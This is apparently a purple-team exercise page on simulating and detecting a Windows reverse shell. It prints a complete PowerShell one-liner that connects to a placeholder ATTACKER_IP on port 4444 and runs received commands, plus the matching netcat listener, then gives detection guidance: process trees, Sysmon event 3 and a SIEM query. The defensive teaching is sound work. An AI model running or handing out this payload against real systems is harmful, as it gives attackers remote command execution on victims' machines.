 # Hint 10: Reverse Shell

## Scenario Overview

Simulates establishing a reverse shell from a Windows victim to an attacker, allowing remote command execution.

## Simulation Steps

**On Windows (Victim):**
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
**On Kali (Attacker):**
```bash
nc -lvnp 4444
```

## Detection Guidance

- **Key Logs/Events:**
  - Abnormal parent-child (e.g., explorer.exe → powershell.exe)
  - Event ID 3: Outbound connection
- **SIEM Query Example:** `destination.port:4444 AND process.name:"powershell.exe"`
- **What to Look For:** Outbound connections from PowerShell to non-standard ports, suspicious process trees.

## Example Log Artifacts

(Paste actual log lines or reference screenshots here if available.)

## Additional Notes

Monitor for powershell.exe making outbound connections, especially on uncommon ports.
